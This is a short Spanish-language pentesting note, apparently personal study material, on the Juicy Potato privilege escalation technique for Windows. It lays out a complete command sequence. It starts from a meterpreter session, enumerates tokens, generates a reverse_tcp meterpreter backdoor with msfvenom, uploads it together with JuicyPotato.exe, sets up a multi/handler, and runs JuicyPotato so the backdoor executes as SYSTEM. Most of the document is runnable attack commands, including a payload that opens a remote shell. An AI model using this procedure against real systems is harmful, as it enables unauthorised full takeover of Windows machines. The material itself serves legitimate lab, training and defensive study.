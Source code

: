 Juicy Potato es una técnica de escalada de privilegios en sistemas Windows que explota la asignación incorrecta de tokens de privilegio en servicios con permisos SYSTEM. Esta vulnerabilidad se basa en el abuso de COM (Component Object Model) para obtener un token de acceso con privilegios elevados.

Se usa cuando se tiene acceso a un usuario con permisos de servicio (como `SERVICE_ACCOUNT`) pero no directamente a SYSTEM. Mediante Juicy Potato, es posible ejecutar comandos con los privilegios más altos del sistema.

A partir de una sesión de meterpreter vamos a ejecutar los siguientes comandos:

```bash
#conocer sistema
getuid
#ver los privilegios
getprivs
#cargar módulo incognito
load incognito
#ver los tokens disponibles
list_tokens -u
```

En el ejemplo vemos los siguientes

![[Pasted image 20250220090513.png]]

Ninguno de altos privilegios. Lo que vamos a hacer es crear un paylaod con msfvenom

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > backdoor.exe
```

Desde la sesión de meterpreter podemos subir el archivo malicioso que acabamos de generar.

```bash
upload backdoor.exe

#También vamos a subir el binario de Juicy Potato
upload /root/Desktop/tools/JuicyPotato.exe
#Ponemos la sesión en background
background
#Utilizamos el multi/handler
use multi/handler
exploit

#Volvemos a la sesion de meterpreter mientras se ejecuta el multi/handler
sessions 1

#ejecutar juicypotato
shell
JuicyPotato.exe -l 555 -p C:\users\Public\backdoor.exe -t * -c codigo
#Para obtener el código hay que utilizar una CLS que se obtiene según la versión de windows utilizada. para ver entrar en al url:https://github.com/ohpe/juicy-potato
```

Con esto deberíamos generar una sesión con usuario con privilegios.
